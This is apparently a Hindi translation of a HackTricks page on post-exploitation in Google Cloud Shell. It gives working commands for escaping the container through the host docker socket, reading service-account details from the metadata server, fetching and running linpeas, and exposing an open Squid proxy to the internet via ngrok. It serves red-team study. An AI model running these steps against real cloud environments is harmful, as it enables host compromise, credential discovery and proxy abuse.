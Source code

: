 # GCP - Cloud Shell Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Cloud Shell के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

ध्यान दें कि Google Cloud Shell एक कंटेनर के अंदर चलता है, आप **आसानी से होस्ट पर भाग सकते हैं** ऐसा करके:

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

यह गूगल द्वारा एक कमजोरियों के रूप में नहीं माना जाता है, लेकिन यह आपको उस वातावरण में हो रही घटनाओं का एक व्यापक दृष्टिकोण देता है।

इसके अलावा, ध्यान दें कि होस्ट से आप एक सेवा खाता टोकन पा सकते हैं:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

निम्नलिखित स्कोप के साथ:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

LinPEAS के साथ मेटाडेटा की गणना करें:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

[https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) का उपयोग करने के बाद सेवा खाता के टोकन के साथ **कोई अनुमति नहीं मिली**...

### इसे प्रॉक्सी के रूप में उपयोग करें

यदि आप अपने गूगल क्लाउड शेल इंस्टेंस का प्रॉक्सी के रूप में उपयोग करना चाहते हैं, तो आपको निम्नलिखित कमांड चलाने की आवश्यकता है (या उन्हें .bashrc फ़ाइल में डालें):
```bash
sudo apt install -y squid
```
बस आपको बताने के लिए कि Squid एक http प्रॉक्सी सर्वर है। एक **squid.conf** फ़ाइल निम्नलिखित सेटिंग्स के साथ बनाएं:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
**squid.conf** फ़ाइल को **/etc/squid** में कॉपी करें
```bash
sudo cp squid.conf /etc/squid
```
अंत में स्क्विड सेवा चलाएँ:
```bash
sudo service squid start
```
ngrok का उपयोग करें ताकि प्रॉक्सी बाहर से उपलब्ध हो सके:
```bash
./ngrok tcp 3128
```
tcp:// यूआरएल कॉपी करने के बाद चलाएँ। यदि आप ब्राउज़र से प्रॉक्सी चलाना चाहते हैं, तो tcp:// भाग और पोर्ट को हटा देना और अपने ब्राउज़र प्रॉक्सी सेटिंग्स के पोर्ट फ़ील्ड में पोर्ट डालना सुझावित है (squid एक http प्रॉक्सी सर्वर है)।

शुरुआत में बेहतर उपयोग के लिए .bashrc फ़ाइल में निम्नलिखित पंक्तियाँ होनी चाहिए:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
The instructions were copied from [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). उस पृष्ठ पर Cloud Shell में किसी भी प्रकार的软件 (डेटाबेस और यहां तक कि विंडोज) चलाने के लिए अन्य पागल विचारों की जांच करें।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
